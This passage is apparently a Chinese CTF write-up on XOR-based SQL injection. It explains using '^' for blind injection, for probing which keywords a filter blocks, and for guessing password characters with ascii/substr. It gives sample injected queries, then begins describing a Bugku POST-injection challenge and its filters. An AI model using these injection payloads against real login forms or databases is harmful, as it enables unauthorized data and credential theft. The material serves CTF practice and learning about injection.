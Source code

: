 
##### 实际作用

也就是说，^的作用为：

+ 可以进行盲注

  ```
  select * from users where id='0'^(length(database())>1)='1
  ```

  

+ 可以用来探测过滤关键字。因为一般就算过滤也不会过滤^

  ```
  select * from users where id='1'^length('and')='1
  						#进行位运算，通过返回id猜length('and')的长度判断过滤
  ```

  

+ 如果是post注入，可以用来探测另一个关键字。不过这种方式的局限性很大，其实就和盲注差不多，不过盲注容易被过滤。不过猜测另一个的话，就需要猜另一个字段的字段名是什么，才能进行探测。

  而且只适合于打CTF这种，数据库只有一条数据的情况。

  ```
  select * from users where username='kkp'^(ascii(substr((password)from(2)))!=114)='1';
  						//这种方式无法进行猜解，因为猜出来的是所有密码的集合。如果只有一条数据的话，倒可以猜一下试试
  
  
  select * from users where id='1'^(ascii(substr((password)from(2)))!=114)='1';
  						//这种方式因为id和password冲突的原因可以猜id=1的数据的密码
  	//也可以使用length的方式来猜列名
  select * from users where id='0'^(length(passwd)>1)='1';
  ```

  > 注意异或的逻辑





##### 实例



bugku的web中`sql注入2`



此题为一道sql的post注入题。

> (ps.其实此题可以使用弱口令，和DS_Store通关)



此题中，能拦截的都拦截了，恶心的一匹。而且密码框中没有注入点。只有通过用户框注入。



此题因为是拦截的原因，不能使用双写绕过，大小写绕过。其他的绕过方式估计也不行。

不能使用union注入，报错注入，堆叠没试过应该也不行。只能通过盲注。

不能用时间盲注，bool盲注的`and`和`or`也被过滤。逗号也被过滤。
